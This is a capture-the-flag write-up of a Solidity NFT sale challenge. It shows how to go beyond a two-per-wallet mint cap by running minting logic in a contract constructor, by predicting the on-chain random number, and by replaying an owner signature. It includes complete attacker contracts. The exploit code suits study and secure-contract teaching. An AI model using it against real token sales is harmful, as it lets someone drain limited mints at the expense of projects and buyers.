# Solidity challenge VNFT.sol

## The objective

VNFT.sol is a ERC721 contract. The sale is capped at 2 tokens per wallet -- the goal is to exploit the sale by minting more than the allowed 2 NFTs per wallet, all in a single transaction.

## Overview

There are two functions to mint NFTs:

- function imFeelingLucky(address to, uint256 qty, uint256 number)
- function whitelistMint(address to, uint256 qty, bytes32 hash, bytes memory signature)

Both functions expect an address to mint and a quantity. `imFeelingLucky` additionally expects a number, while `whitelistMint` expects a hash and a signature.

Inspecting `imFeelingLucky` shows that it calculates a random number based on the blockhash, the block timestamp and the totalSupply:

```solidity
uint256 randomNumber = uint256(
    keccak256(
        abi.encodePacked(
            blockhash(block.number - 1),
            block.timestamp,
            totalSupply
        )
    )
) % 100;

require(randomNumber == number, "Better luck next time!");
```

The modulo division sets the range of the random number from 0 to 99. The random number is compared with function input `number`, if its the same, it will allow minting tokens.

Function `whitelistMint` only allows whitelisted wallets to mint, it does that by requiring a signature signed by the owner of the contract:

```solidity
require(
    recoverSigner(hash, signature) == owner(),
    "Address is not allowlisted"
);
```

## Vulnerability

Both functions have a vulnerability.

### imFeelingLucky

```
require((msg.sender).code.length == 0, "Only EOA allowed");
```

Above require statement ensures that only EOAs (externally owned accounts) are allowed to mint by checking that the code length of `msg.sender` is equal to zero. You can circumvent that check by including the necessary code in the constructor of your contract -- the code size of a smart contract at creation (so when the code in the constructor is executed) **is zero**:

```solidity
contract Attacker {
  constructor(address EOA, address vnft) {
    uint256 currentId = IVNFT(vnft).totalSupply();

    uint256 randomNumber = uint256(
      keccak256(
        abi.encodePacked(
          blockhash(block.number - 1),
          block.timestamp,
          currentId
        )
      )
    ) % 100;

    IVNFT(vnft).imFeelingLucky(address(this), 2, randomNumber);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
    IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

    selfdestruct(payable(EOA));
  }

  function onERC721Received(
    address,
    address,
    uint256,
    bytes calldata
  ) external virtual returns (bytes4) {
    return ERC721TokenReceiver.onERC721Received.selector;
  }
}

```

Above contract calculates the random number, mints 2 NFTs via `imFeelingLucky` and sends them to specified address. Function `onERC721Received` is needed because contract `VNFT.sol` uses `safeMint` for minting tokens.

### whitelistMint

As described, only whitelisted wallets can successfully mint by requiring a hash + signature signed by the owner. Usually you keep track of used signatures by saving them in an array and only allowing new signatures to be processed:

```solidity
require(!usedSignatures[signature], "Signature already used!");
...
usedSignatures[signature] = true;
```

This check is missing, allowing a signature replay attack

```solidity
constructor(
  address EOA,
  address vnft,
  bytes32 hash,
  bytes memory signature
) {
  uint256 currentId = IVNFT(vnft).totalSupply();

  IVNFT(vnft).whitelistMint(address(this), 2, hash, signature);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId++);
  IVNFT(vnft).safeTransferFrom(address(this), EOA, currentId);

  selfdestruct(payable(EOA));
}

```

Simply use a prior used signature to circumvent the whitelist check.

### Exploit in a single transaction

To exploit the sale by minting more than the 2 allowed tokens in a single transaction you have to write an attacker contract, which deploys several minting-contracts, executing your exploit logic.

```solidity
function attack(address EOA) public {
  // deploy 5 smart contracts, each one is minting 2 nfts and sending those to address EOA
  for (uint256 i; i < 5; i++) new Attacker(EOA, address(vnft));

  // check if 10 NFTs were minted, if not, something went wrong
  require(vnft.balanceOf(EOA) == 10);
}

```

## Takeaways

- `require((msg.sender).code.length == 0` wont stop smart contracts from calling and executing a function, since code length during contract creation is zero
- Random numbers arent really random, since everything on the EVM is deterministic
- Keep track of used signatures to prevent signature replay attacks

## Further information

- [VNFT.t.sol](test/VNFT.t.sol) for a test script exploiting the contract
- [Implementation](https://goerli.etherscan.io/address/0x85811aa24f3f75c8cfd07aa3fab7e6d20e3b29f7#code) from adriro
- [Implementation](https://github.com/JonathanAmenechi/ethernaut-challenges/blob/main/src/Exploit9.sol) from jon_amen
